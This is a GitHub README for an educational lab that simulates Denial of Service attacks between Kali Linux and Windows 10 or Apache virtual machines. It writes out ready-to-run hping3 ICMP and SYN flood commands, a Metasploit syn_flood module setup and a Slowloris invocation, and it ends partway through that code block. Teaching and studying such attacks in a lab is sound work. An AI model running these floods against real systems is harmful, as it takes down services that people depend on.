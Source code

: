 # 🛡️Simulation of DoS (Denial of Service) Attack

This project demonstrates the simulation of various *Denial of Service (DoS) attacks* in a controlled lab environment for *educational and cybersecurity research purposes*.  
The simulation uses *Kali Linux* as the attacker machine and *Windows 10* (and optional Apache Web Server) as the victim system, running inside *VMware Workstation*.

> ⚠ *Disclaimer: This project is for **educational purposes only*.  
> Performing DoS attacks on unauthorized systems is illegal and punishable by law. Always conduct tests in a controlled lab environment with permission.

---

## 📌 Objectives
- Understand the working of DoS attacks.
- Simulate attacks using tools like:
  - hping3
  - Metasploit
  - Slowloris
  - LOIC
- Analyze the effect of DoS on target systems.
- Implement basic mitigation strategies.

---

## 🛠 Lab Setup

### *Requirements*
- *Hardware:*
  - PC with at least 8 GB RAM & virtualization support
- *Software:*
  - VMware Workstation / VirtualBox
  - Kali Linux ISO
  - Windows 10 ISO
  - Apache HTTP Server (optional, for web server attack simulation)
- *Tools Used:*
  - hping3
  - msfconsole (Metasploit Framework)
  - slowloris
  - loic

---

## ⚙ Steps Performed

### *1. Lab Environment Configuration*
- Install VMware and create two VMs:
  - *Attacker VM*: Kali Linux
  - *Target VM*: Windows 10 or Linux with Apache
- Connect both VMs to the same network (Host-only or NAT).

### *2. Attacks Performed*
#### *a. ICMP Flood Attack (hping3)*
```bash
hping3 -1 --flood -V <target-ip>

#TCP SYN Flood (hping3)
hping3 -S -p 80 --flood -V <target-ip>


#Dos with metasploit
msfconsole
use auxiliary/dos/tcp/syn_flood
set RHOST <target-ip>
set RPORT 80
run

#HTTP DoS with Slowloris
perl slowloris.pl -dns <target-ip> -port 80 -timeout 200 -num 1000
